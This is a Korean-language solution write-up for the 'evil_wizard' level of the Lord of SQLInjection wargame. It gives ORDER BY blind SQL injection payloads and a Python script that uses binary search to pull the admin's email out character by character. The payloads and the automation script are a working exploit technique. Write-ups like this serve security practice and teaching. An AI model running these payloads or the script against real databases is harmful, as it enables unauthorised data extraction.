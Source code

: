 

# [24] evil_wizard

## 문제

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FCPYrT%2FbtrocdvYsid%2FzK4XYNKw6I4J3h0KHsSM91%2Fimg.png">

## 풀이

소스 코드만 보면 이전 문제와 완전히 같다.

물론 같은 문제일리가 없으니 테이블 내부 데이터를 확인해본다.

<br>

다음은 order=1을 페이로드로 전달했을 때 볼 수 있는 테이블이다.


<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FzuOin%2FbtrobVbqsuX%2FD1PiXYZI0jjLsIzxh6LbNk%2Fimg.png">


이번 문제는 id ASC로 정렬해도, score ASC로 정렬해도 그 결과가 같을 것임을 예상할 수 있다.

<br>

그렇다면 이번에는,<br>

if 조건문의 참/거짓에 따라 각각 "1 ASC"와 "1 DESC"를 반환해주면 될 것 같다.

<br>

그렇게 해주면 if문의 조건이 참인 경우,<br>

admin 레코드가 위로 올라가게 되며, 이 경우 res.text에는 **50&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td&gt;rubiya** 가 포함될 것이다.

<br>

따라서, 전달해줄 페이로드는 다음과 같다.

<br>

[1] pw 길이 찾기

```
?order=if(id='admin' and length(email)=[길이], '1 ASC', '1 DESC')
```


[2] 완전한 pw 찾기

```  
?order=if(id='admin' and ascii(substr(email,{len},1))=[아스키], '1 ASC', '1 DESC')
```


[3] 참 판별

```
if("50</td></tr><tr><td>rubiya" in res.text)
```

<br>


**LoS 24번 Python 자동화 코드**이다.
```python
import requests

def send(param):
    url = "https://los.rubiya.kr/chall/evil_wizard_32e3d35835aa4e039348712fb75169ad.php"
    cookie = "tp0ja8gkvp5j75fm5lntqomope"
    head = {"PHPSESSID":f"{cookie}"}
    my_url = url+param
    res = requests.get(my_url, cookies=head)
    return res.text

print("💘 LoS 24를 시작합니다")

for num in range(0,100):
    param=f"?order=if(id='admin' and length(email)={num}, '1 ASC', '1 DESC')"
    if("50</td></tr><tr><td>rubiya" in send(param)):
        print(f"👏 email의 길이는 {num}입니다!")
        break

ans=""

for len in range(1, num+1):
    start = 32
    end = 127
    while True:
        middle = round((start+end)/2)
        param=f"?order=if(id='admin' and ascii(substr(email,{len},1))>={middle}, '1 ASC', '1 DESC') %23"
        if("50</td></tr><tr><td>rubiya" in send(param)):
            param=f"?order=if(id='admin' and ascii(substr(email,{len},1))={middle}, '1 ASC', '1 DESC') %23"
            if("50</td></tr><tr><td>rubiya" in send(param)):
                print(f"{len}번째 문자 → {chr(middle)}")
                ans+=chr(middle)
                break
            else:
                start = middle
                continue
        else:
            end = middle
            continue

print(f"👏 email의 정체는 [{ans}]입니다!")
```
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FlPVPv%2FbtrobTraaKg%2FQ8ClrhC9pPGBea0pOv6n0K%2Fimg.png">
  
Blind 공격 결과, admin의 email은 `aasup3r_secure_email@emai1.com` 임을 알 수 있다.
  
## 결과

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FFRzmL%2Fbtrob7Qa1Vp%2FcNk6I956Im1KcsZugbp5E1%2Fimg.png">